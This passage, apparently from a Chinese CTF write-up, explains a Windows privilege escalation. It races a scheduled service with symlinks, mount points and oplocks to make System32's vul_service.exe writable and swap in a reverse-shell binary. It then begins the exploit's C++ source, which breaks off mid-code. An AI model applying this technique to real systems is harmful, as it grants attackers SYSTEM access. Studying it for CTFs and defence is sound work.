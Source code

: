    ![](https://i.loli.net/2021/11/17/5RfkSiEgMZUHhLj.png)

   则访问`C:\Users\Public\tmp\A\abc`就相当于访问`C:\Windows\System32\vul_service.exe`

2. 在先在tmp目录下创建链到文件夹A的符号链接，在文件夹A中创建vul_service的同名文件，在竞争的时候将tmp目录下的文件夹链到`C:\Windows\System32\`

   ![](https://i.loli.net/2021/11/17/YsdASGBD9k5WXtv.png)

   则访问`C:\Users\Public\tmp\A\vul_service.exe`就相当于访问`C:\Windows\System32\vul_service.exe`

找到[googleprojectzero的工具symboliclink-testing-tools ](https://github.com/googleprojectzero/symboliclink-testing-tools)，在测试的时候只有CreateMountPoint.exe和SetOpLock.exe是还能正常使用的，在比赛的时候由于从设备管理器链接到vul_service的时候失败，不确定第一种方法是否已经和硬链接一样被修复（赛后请教出题人2st师傅，2st师傅表示第一种方法还可以使用，并且明显比第二种更灵活，抄抄改改James的代码即可，，2st yyds），所以用第二种方法实现漏洞利用

由于symboliclink-testing-tools的实现使用了很多自定义类型和依赖项，所以在CreateMountPoint项目中的CreateMountPoint.cpp基础上加入Oplock相关的代码编写exp

整体思路是：先将symlink链接到target，在target中创建vul_service同名文件，然后用Oplock锁上文件等待定时任务中的vul_service读取target中的vul_service同名文件权限，释放锁后进行竞争，将target链接到`C:\Windows\System32\`，竞争成功的话则写文件权限时会将`C:\Windows\System32\vul_service.exe`的权限修改为attack用户可写，之后将vul_service文件的内容改为反弹shell的exe文件，监听端口等待定时任务下一次以system权限启动反弹shell即可

CreateMountPoint.cpp：

```c++
#include "stdafx.h"

#include <shobjidl_core.h>

#include <CommonUtils.h>

#pragma comment (lib,"Ws2_32.lib")


#define NUM 5


void END(SOCKET& ListenSocket, SOCKET& ClientSocket)
{

	closesocket(ListenSocket);
	closesocket(ClientSocket);
	WSACleanup();
    
}

int get_shell()
{

	WSADATA wsaData;
	char buf[0x1000] = {
	0 };
	char getbuf[0x1000] = {
	0 };

	int iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
	if (iResult != 0) {
		printf("[-] ERROR code：%d\n", iResult);
		return 1;
	}

	SOCKET ListenSocket, ClientSocket;
	ListenSocket = socket(AF_INET, SOCK_STREAM, 0);

	sockaddr_in addr, addr2;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(8888);
```